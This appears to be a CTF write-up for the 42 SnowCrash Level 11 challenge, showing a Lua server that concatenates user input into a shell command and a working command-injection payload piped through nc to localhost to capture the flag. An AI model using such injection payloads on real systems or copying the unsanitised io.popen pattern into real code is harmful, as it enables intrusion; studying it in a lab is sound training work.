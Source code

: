 ```yaml
---
title: 42 SnowCrash Level11 - Walkthrough 🤖
tags:
  - ctf
  - snowcrash
  - command-injection
  - lua
  - script
  - exploit
categories:
  - ctfs
  - 42project
date: 2024-05-19 13:26:27
---
```


## Introduction

In Level 11, we are provided with a Lua script that starts a server on port 5151. The objective is to exploit a security vulnerability in this script to gain unauthorized access.

## Step-by-Step Guide
### Step 1: Understanding the Lua Script

First, let's examine the Lua script located in the home directory of Level 11. The script starts a server on port 5151.

Here is the content of the Lua script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

### Step 2: Identifying the Vulnerability
The vulnerability lies in the hash function, specifically in this line:
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
The input pass is directly concatenated into a shell command without any sanitization, leading to a command injection vulnerability.
Step 3: Exploiting the Vulnerability

To exploit this vulnerability, we can inject a command to redirect the output of the getflag command to a temporary file.

When you connect to the server on port 5151, you are prompted to enter a password. Since the input is not sanitized, we can inject our payload.

Here is the exploit command:
```lua
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151 && cat /tmp/level12flag
```

Step 4: Executing the Exploit
    1. Open a terminal and run the following command to connect to the server and inject the payload:
```sh
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151
```
    2. The `getflag` command's output will be redirected to `/tmp/level12flag`.

    3. Next, read the contents of the file to get the flag for Level 12:
```sh
cat /tmp/level12flag
```

### Summary

In this walkthrough, we identified and exploited a command injection vulnerability in a Lua script provided in Level 11 of the Snowcrash project. By injecting a malicious command, we were able to redirect the output of the getflag command to a file and retrieve the flag for the next level.

Feel free to reach out if you have any questions or need further clarification on any steps. Good luck with your continued learning and hacking journey!
